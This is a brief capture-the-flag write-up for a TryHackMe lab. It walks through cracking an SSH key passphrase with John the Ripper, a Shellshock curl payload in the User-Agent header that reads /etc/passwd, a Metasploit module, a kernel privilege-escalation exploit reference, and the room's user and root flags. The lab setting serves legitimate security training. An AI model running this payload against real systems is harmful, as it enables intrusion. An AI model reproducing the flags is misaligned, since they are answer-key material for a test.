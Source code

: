 # 0day-cgi bin exploit&Kernel exploit

```
export IP=10.10.67.15
```

# Material needed

1. Interesting directory: /cgi-bin, /backup

2. Passphrase key: letmein

```
python ssh2john.py /root/Documents/TryHackMe_0day/id_rsa > id_rsa.hash
john --wordlist=/root/Documents/wordlist/rockyou.txt id_rsa.hash
john --show id_rsa.hash 
```

3. cgi-bin vulnerability check

```
nmap $IP -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$IP/cgi-bin/test.cgi 
``` 

4. Exploitdb

```
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

5. Privilege escalation

```
linux/local/37292.c
```
# Tasks

1. user.txt

```
THM{Sh3llSh0ck_r0ckz}
```

2. root.txt

```
THM{g00d_j0b_0day_is_Pleased}
```